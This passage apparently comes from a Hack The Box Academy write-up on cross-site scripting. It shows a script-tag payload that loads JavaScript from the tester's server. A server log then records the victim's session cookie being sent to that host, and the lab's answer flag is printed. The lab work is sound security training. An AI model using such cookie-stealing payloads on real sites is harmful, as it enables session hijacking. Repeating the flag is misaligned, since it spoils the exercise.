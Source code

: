 ```javascript
"><script src=http://10.10.15.8:8000/script.js></script>
```

![Burp Suite - XSS Payload](./assets/screenshots/cross_site_scripting_burpsuite_xss_payload.png)

```
[CONTINUE]

[Fri May 30 06:43:35 2025] 10.129.255.155:46606 Accepted
[Fri May 30 06:43:35 2025] 10.129.255.155:46606 [200]: GET /script.js
[Fri May 30 06:43:35 2025] 10.129.255.155:46606 Closing
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 Accepted
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 Closing
^C

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ cat cookies.txt 

Victim IP: 10.129.255.155 | Cookie: cookie=c00k1355h0u1d8353cu23d
```

**Answer**

```
HTB{4lw4y5_53cur3_y0ur_c00k135}
```

---

## Skills Assessment

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

